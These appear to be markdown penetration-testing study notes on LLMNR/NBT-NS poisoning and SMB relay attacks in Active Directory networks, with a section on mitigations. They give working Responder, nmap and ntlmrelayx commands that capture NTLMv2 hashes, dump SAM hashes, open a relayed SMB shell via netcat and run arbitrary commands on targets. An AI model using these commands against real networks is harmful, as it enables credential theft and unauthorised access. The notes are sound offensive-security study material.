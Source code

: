 
#### LLMNR (Link Local Multicast Name Resolution) Poisoning ( #LLMNR):

- Used to identify hosts when DNS fails to do so.
- Previously known as NBT-NS
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to
- Overview of LLMNR attack:
	- The victim/target machine is asking the server to connect the victim to \\hackm, and also server doesn't have the idea of the path, responds back with no details
	- The victim/target then broadcasts/multicast to everyone asking to help with the connection of \\hackm.
	- Hacker can intercept this request and responds to victim requesting the hash to connect to \\hackm.
	- As victim machine provides the hash, hacker can try to hack the hash and use it for unethical use cases.
- Process for the LLMNR poisoning:
	- Step 1: Run Responder
		- syntax: `sudo responder -I eth0 -dwPv`
			- -I is interface, if its a VPN, it will be tun0 (Tunnel0)
				- if its a network, it will be eth0
			- -d this is for DHCP
			- -w this is for wpad (Start the WPAD rogue proxy server.)
			- -P this is for ProxyAuth (Froce NTLM authentication for the proxy)
			- v - Verbosity
			- Both w and P cannot be used at the same.
		- Syntax: `sudo responder --help` this can be used for more details about the responder.
	- Step 2: Wait for an event to occur, where the victim tries to connect to a shared path
	- Step 3: Responder picks the Hash from victim 
	- Step 4: Crack the hashes with hashcat #HASHCat if its weak.
	
#### LLMNR Poisoning Mitigation ( #LLMNR ):

- The best defense is to disable LLMNR and NBT-NS.
	- To disable LLMNR, select "Turn OFF Multicast Name Resolution" under Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client in the Group Policy Editor. (This can be done in the AD DS server for a domain)
	- To disable NBT-NS, navigate to Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced tab > WINS tab and select "Disable NetBIOS over TCP/IP".
- If a company must use or cannot disable LLMNR/NBT-NS, the best course of action is to:
	- Require Network Access Control.
	- Require strong user passwords (e.g > 14 characters in length and limit common word usage.) The more complex and long the password, the harder it is for an attacker to crack the hash.

#### SMB Relay Attack ( #SMB ):

- What is SMB relay:
	- Instead of cracking hashes gathered with responder, we can instead relay those hashes to specific machines and potentially gain access.
	- Requirements:
		- SMB signing must be disabled or not enforced on the target
		- Relayed user credentials must be admin on machine for any real value
- To check the hosts without SMB Signing:
	- Syntax with nmap:
		- `nmap --script=smb2-security-mode.nse -p445 {ip-address} -Pn` 
		- `nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -Pn`
			- -p445 is for port 445 for SMB
			- -Pn is used to force the probing, if not provided results may say that the hosts is down, using -Pn will force the  script to run, even though the ping option is not available
	- If the output contains with the text `Message signing enabled but not required` that means the machine doesn't have SMB signing
- Steps for SMB relay:
	- Step1: Update the responder conf in the path /etc/responder/Responder.conf with the below command.
		- `sudo mousepad /etc/responder/Responder.conf` and update the SMB and HTTP (Servers to start) to Off and save the file.
	- Step2: Run the responder with the below syntax:
		- `sudo responder -I eth0 -dwPv`
	- Step3: Setup your relay with the tool `ntlmrelayx.py`
		- Syntax: `sudo ntlmrelayx.py -tf targets.txt -smb2support`
			- -tf - target file
		- targets.txt will contain the target details that is identified in the nmap scan for SMB signing is disabled.
	- Step4: An event occurs similar to LLMNR access a file share path from the target machine
	- Step5: ntlmrelayx will be dumping the SAM hashes of the users of the target machine.
	- Step6: (Optional) This is the step3 optional, where we add a -i to the end of the command, to enable a interactive shell on a port instead of dumping the SAM hashes
		- `sudo ntlmrelayx.py -tf targets.txt -smb2support -i`
		- Once the event occurs, we will observed that the relayx started a interactive SMB client shell via TCP on 127.0.0.1:11001
		- We can use netcat to listen to the port and access the shell
			- `nc 127.0.0.1 11001`
	- Step7: (Optional) This is the step3 optional, similar to Step6, we can add -c to run any command instead of the shell as well.
		- `sudo ntlmrelayx -tf targets.txt -smb2support -c "whoami"`

- Note: Make sure that the user from machine1 is added in the administration group of the machine2, in order for the SMB relay to work, as if the user is not part of the administrative group, relay attack is not possible
	- And also if the user from machine1 is already added, but for some case, is not showing up in the administrative group policy, start the domain controller and then check once, if not try to add the user again into the machine2.




